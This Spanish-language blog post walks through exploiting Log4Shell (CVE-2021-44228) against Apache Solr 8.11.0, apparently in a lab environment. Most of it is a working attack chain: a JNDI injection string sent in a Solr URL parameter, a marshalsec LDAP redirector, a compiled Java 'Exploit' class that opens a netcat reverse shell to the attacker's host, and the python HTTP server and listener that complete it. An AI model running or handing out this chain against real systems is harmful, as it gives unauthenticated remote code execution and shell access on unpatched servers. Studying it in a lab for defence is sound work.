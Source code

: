 ```yaml
---
layout: single
title:  "log4j CVE-2021-44228 POC"
categories: [cve, poc, articulo]
---
```


## Explotacion de log4jshell  CVE-2021-44228

El pasado jueves salió a la luz una vulnerabilidad que afecta al Java logging package llamado **Log4j**. Etiquetada como **`CVE-2021-44228`** conocida por apodos como **Log4Shell** o **LogJam** y descubierta por el equipo de seguridad de Alibaba, el problema se refiere a un caso de ejecución remota de código no autenticado (RCE) en cualquier aplicación que use esta utilidad de código abierto y afecte a las versiones no parcheadas, de Apache Log4j 2.0-beta9 hasta la 2.14. 1. El error fue calificado con la puntuación máxima de <span style="color:red">10 sobre 10</span>   en el sistema de clasificación CVSS, lo que indica la enorme gravedad del problema.


Para aprovecharnos de esta vulnerabilidad puede ser fácil o a la vez no. La idea es encontrar algún parámetro con lo que enviemos se guarde en los logs para que luego se ejecute, puede ser tanto en el user-agent o en algún parámetro get o post de la url , etc

## POC

 [Apache Solr 8.11.0](https://solr.apache.org/) es una aplicación vulnerable en la que enviándole data en `/solr/admin/cores?foo=` lo va a guardar en los logs. Podemos probar esto de la siguiente manera <br>

 enviando `${jndi:ldap://<IP><PUERTO>}` si es vulnerable nos debería traer una conexión ldap que no entiende la terminal 

 ```bash
  http://10.10.207.24:8983/solr/admin/cores?foo=${jndi:ldap://10.14.13.223:3000} 
```

 ![reverse](/assets/articulos/log4j/reverse.png)

Una vez hecho esto, para ganar ejecución de comandos remota tenemos que hacer redireccionar la petición ldap 

Usamos este proyecto que tenemos que compilar con maven <br>
``sudo apt install maven`` <br>
[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec) <br>
```mvn clean package -DskipTests``` <br>

![reverse](/assets/articulos/log4j/marshallsec.png)


Ya con nuestro ldap redirector usamos este comando para decirle que abra ruta en nuestro host en el puerto 8080, que próximamente crearemos 

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP>:8000/#Exploit" 
```

![ref](/assets/articulos/log4j/ref.png)
 <br>
 Ahora que tenemos nuestro servidor ldap listo, creamos nuestro payload final <br>
 Creamos un script en java el cual tenemos que compilar para que log4j lo ejecute

 ```java

public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash <IP> <PUERTO>");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

 ```
```bash
javac Exploit.java -source 8 -target 8
```


![ref](/assets/articulos/log4j/compilado.png)

Por último creamos nuestro servidor en python en el puerto **8000** `python3 -m http.server 8000` y nuestro netcat en escucha `nc -lvp <PUERTO>`

ahora enviamos en la máquina atacante 
```bash
${jndi:ldap://10.14.13.223:1389/Exploit}
```
```bash 
http://10.10.207.24:8983/solr/admin/cores?foo=${jndi:ldap://10.14.13.223:1389/Exploit} 
```

![get](/assets/articulos/log4j/get.png)

Y en nuestro netcat que habíamos creado 


![get](/assets/articulos/log4j/revshell.png)




